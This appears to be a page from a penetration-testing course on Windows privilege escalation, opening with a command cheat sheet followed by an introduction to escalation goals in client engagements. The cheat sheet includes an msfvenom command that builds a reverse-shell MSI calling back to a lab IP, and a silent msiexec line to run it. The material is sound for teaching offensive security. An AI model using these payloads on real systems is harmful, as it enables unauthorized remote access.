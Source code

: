| `msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.3 lport=9443 -f msi > aie.msi`                        | Generate a malicious MSI package                   |
| `msiexec /i c:\users\htb-student\desktop\aie.msi /quiet /qn /norestart`                                     | Executing an MSI package from command line         |
| `schtasks /query /fo LIST /v`                                                                               | Enumerate scheduled tasks                          |
| `Get-ScheduledTask \| select TaskName,State`                                                                | Enumerate scheduled tasks with PowerShell          |
| `.\accesschk64.exe /accepteula -s -d C:\Scripts\`                                                           | Check permissions on a directory                   |
| `Get-LocalUser`                                                                                             | Check local user description field                 |
| `Get-WmiObject -Class Win32_OperatingSystem \| select Description`                                          | Enumerate computer description field               |
| `guestmount -a SQL01-disk1.vmdk -i --ro /mnt/vmd`                                                           | Mount VMDK on Linux                                |
| `guestmount --add WEBSRV10.vhdx --ro /mnt/vhdx/ -m /dev/sda1`                                               | Mount VHD/VHDX on Linux                            |
| `sudo python2.7 windows-exploit-suggester.py --update`                                                      | Update Windows Exploit Suggester database          |
| `python2.7 windows-exploit-suggester.py --database 2021-05-13-mssb.xls --systeminfo win7lpe-systeminfo.txt` | Running Windows Exploit Suggester                  |



## Introduction to Windows Privilege Escalation

***

After gaining a foothold, elevating our privileges will provide more options for persistence and may reveal information stored locally that can further our access within the environment. The general goal of Windows privilege escalation is to further our access to a given system to a member of the `Local Administrators` group or the `NT AUTHORITY\SYSTEM` [LocalSystem](https://docs.microsoft.com/en-us/windows/win32/services/localsystem-account) account. There may, however, be scenarios where escalating to another user on the system may be enough to reach our goal. Privilege escalation is typically a vital step during any engagement. We need to use the access obtained, or some data (such as credentials) found only once we have a session in an elevated context. In some cases, privilege escalation may be the ultimate goal of the assessment if our client hires us for a "gold image" or "workstation breakout" type assessment. Privilege escalation is often vital to continue through a network towards our ultimate objective, as well as for lateral movement.

That being said, we may need to escalate privileges for one of the following reasons:

|    |                                                                                                                                                                                                                      |
| -- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 1. | When testing a client's [gold image](https://www.techopedia.com/definition/29456/golden-image) Windows workstation and server build for flaws                                                                        |
| 2. | To escalate privileges locally to gain access to some local resource such as a database                                                                                                                              |
| 3. | To gain [NT AUTHORITY\System](https://docs.microsoft.com/en-us/windows/win32/services/localsystem-account) level access on a domain-joined machine to gain a foothold into the client's Active Directory environment |
| 4. | To obtain credentials to move laterally or escalate privileges within the client's network                                                                                                                           |

There are many tools available to us as penetration testers to assist with privilege escalation. Still, it is also essential to understand how to perform privilege escalation checks and leverage flaws `manually` to the extent possible in a given scenario. We may run into situations where a client places us on a managed workstation with no internet access, heavily firewalled, and USB ports disabled, so we cannot load any tools/helper scripts. In this instance, it would be crucial to have a firm grasp of Windows privilege escalation checks using both PowerShell and Windows command-line.
